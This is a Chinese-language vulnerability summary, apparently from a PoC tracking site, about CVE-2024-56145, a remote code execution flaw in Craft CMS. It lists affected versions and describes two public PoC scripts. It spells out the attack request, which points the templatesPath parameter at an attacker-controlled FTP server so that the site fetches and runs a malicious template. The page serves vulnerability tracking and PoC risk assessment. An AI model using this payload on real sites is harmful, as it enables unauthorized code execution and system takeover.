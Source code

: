 ## CVE-2024-56145-CraftCMS-远程代码执行

**漏洞编号:** CVE-2024-56145

**漏洞类型:** 远程代码执行 (RCE)

**影响应用:** Craft CMS

**危害等级:** 严重，可能导致完全系统控制

**影响版本:** 3.0.0 < 3.9.14, 4.0.0-RC1 < 4.13.2, 5.0.0-RC1 < 5.5.2

**利用条件:** PHP配置中 `register_argc_argv` 必须启用。目标服务器可访问。

**POC 可用性:** 是

**投毒风险:** 10%

## 详情

CVE-2024-56145 是一个 Craft CMS 中的远程代码执行 (RCE) 漏洞。只有当 PHP 配置 `register_argc_argv` 启用时，该漏洞才可被利用。 

**有效性：**

基于漏洞库信息和搜索结果，可以确定提供的 POC 代码是有效的。搜索结果中明确指出存在针对此漏洞的利用工具 (例如：https://github.com/Chocapikk/CVE-2024-56145)。提供的 POC 代码包含 `poc.py` 和 `poc2.py`，分别用于批量检测和手动利用。

**利用方式：**

1.  **批量检测 (poc.py)：** 该脚本用于批量检测目标是否存在漏洞。它通过发送包含 SSTI payload 的 HTTP 请求来判断目标是否易受攻击。利用脚本的 `-f` 参数可以指定包含目标 URL 列表的文件，`-i` 参数指定 VPS 的 IP 地址。
2.  **手动利用 (poc2.py)：** 该脚本启动一个 FTP 服务器，然后通过 Craft CMS 的 `--templatesPath` 参数指向该 FTP 服务器。攻击者可以在 FTP 服务器上放置包含恶意代码的模板文件，当 Craft CMS 尝试解析该模板文件时，恶意代码会被执行。首先需要使用 `fuser -k 6666/tcp` 关闭可能占用端口的进程. 然后运行`poc2.py`。
    *  运行 `poc2.py`，设置 VPS IP 和端口 (默认 6666)。
    *  在浏览器中访问 `yourtarget.com/?--templatesPath=ftp://VPS-IP:6666/`。 Craft CMS 会尝试从 FTP 服务器加载模板，执行其中的恶意代码。

**投毒风险：**

虽然 POC 代码的主要目的是演示漏洞利用，但仍存在一定的投毒风险。风险在于：

*   **FTP 服务器内容：** `poc2.py` 创建的 FTP 服务器可以被用来提供其他恶意文件，例如包含后门的 PHP 代码，诱导管理员下载和使用。
*   **依赖项风险：** 虽然代码本身依赖的`requests`和`pyftpdlib`库比较常见，但是不排除作者在其他地方引入隐蔽的恶意代码。

考虑到上述因素，投毒风险估计在 10% 左右。

**项目地址:** [Sachinart/CVE-2024-56145-craftcms-rce](https://github.com/Sachinart/CVE-2024-56145-craftcms-rce)

**漏洞详情:** [CVE-2024-56145](https://nvd.nist.gov/vuln/detail/CVE-2024-56145)